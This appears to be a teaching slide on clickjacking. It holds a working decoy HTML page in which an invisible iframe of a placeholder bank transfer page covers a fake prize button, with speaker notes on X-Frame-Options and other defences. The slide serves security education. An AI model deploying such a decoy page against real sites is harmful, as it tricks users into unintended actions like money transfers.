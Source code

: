 ```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Clickjacking
---
```

<h1>Hijacking user's clicks</h1>

<Transform scale="1">

```html {all|15-18,21-24}
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Decoy web page</title>
</head>

<body>
  <div style="position: absolute; left: 25%; top: 5%;">
    You won! Click TOTALLY LEGIT BUTTON to get your prize!
  </div>

  <div style="position: absolute; left: 40%; top: 10%;">
    <!-- never gets clicked since the iframe covers the entire page -->
    <button type="button" style="border-color: red; border-width: 2px; color: red;">
      TOTALLY LEGIT BUTTON
    </button>
  </div>

  <!-- this iframe captures all clicks, since it covers the entire page -->
  <iframe style="opacity: 0;" width="680" height="480" scrolling="no"
    src="https://mybank/Transfer.aspx">
  </iframe>
</body>
</html>
```

<!-- A possibly legit decoy web page

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a `<frame>`, `<iframe>`, `<embed>` or `<object>`. Sites can use this to avoid @clickjacking (aka UI redressing)  attacks, by ensuring that their content is not embedded into other sites.

The issue here is that the target site has been loaded up within an iframe. One way to address this is via a little JavaScript in the banking website which works as follows. -->

</Transform>

<!--
Clickjacking (aka UI redressing) stands for click hijacking.

The HTML document rendered in the iframe (e.g. https://mybank/Transfer.aspx) could even be a legit website, but it's rendered in a decoy web page that tricks the user into clicking on a button/link that the user does not see.

- [Clickjacking (UI redressing)](https://portswigger.net/web-security/clickjacking)
- [Clickjack attack – the hidden threat right in front of you](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)

An HTTP header that start with an "X-" is not part of the HTTP spec. Such header is called custom header.
-->
